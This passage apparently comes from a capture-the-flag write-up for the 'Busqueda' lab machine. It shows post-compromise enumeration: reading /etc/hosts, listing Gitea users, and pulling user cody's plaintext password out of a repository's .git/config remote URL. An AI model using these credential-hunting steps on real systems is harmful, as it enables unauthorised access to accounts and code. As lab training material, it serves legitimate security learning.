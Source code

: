 ### Further Enumeration

Reading the `/etc/hosts` file of the machine reveals another asset.
```shell
svc@busqueda:/var/snap/core20/1822$ cat /etc/hosts
cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 busqueda searcher.htb gitea.searcher.htb

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Adding the subdomain to my `/etc/hosts` file.
```shell
sudo nano /etc/hosts
[...]
10.10.11.208	searcher.htb gitea.searcher.htb
```

#### User Enumeration
```
http://gitea.searcher.htb/explore/users

administrator - Joined on Jan 4, 2023
cody - Joined on Jan 4, 2023
```

#### Finding cody creds

```shell
svc@busqueda:~$ cat .gitconfig
cat .gitconfig
[user]
	email = cody@searcher.htb
	name = cody
[core]
	hooksPath = no-hooks
```

```shell
svc@busqueda:/var/www/app/.git$ cat config
cat config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```
